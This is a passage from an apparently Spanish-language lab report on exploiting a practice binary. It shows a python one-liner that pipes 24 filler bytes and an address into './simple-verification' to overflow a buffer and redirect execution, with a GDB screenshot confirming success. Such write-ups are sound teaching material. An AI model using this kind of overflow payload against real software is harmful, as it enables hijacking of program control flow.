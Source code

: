 Mientras que para el segundo código, quedó así:

\begin{quote}
\texttt{python3 -c 'print(''A''*24 + "\textbackslash x69\textbackslash x51\textbackslash x55\textbackslash x55\textbackslash x55\textbackslash x55") | ./simple-verification'}
\end{quote}

\begin{center}
    \includegraphics[scale=.5]{img/gdbVerification.png}
\end{center}

Podemos ver que en ambos casos, se pudo acceder a la función adecuada, pues recibimos los mensajes de aceptación.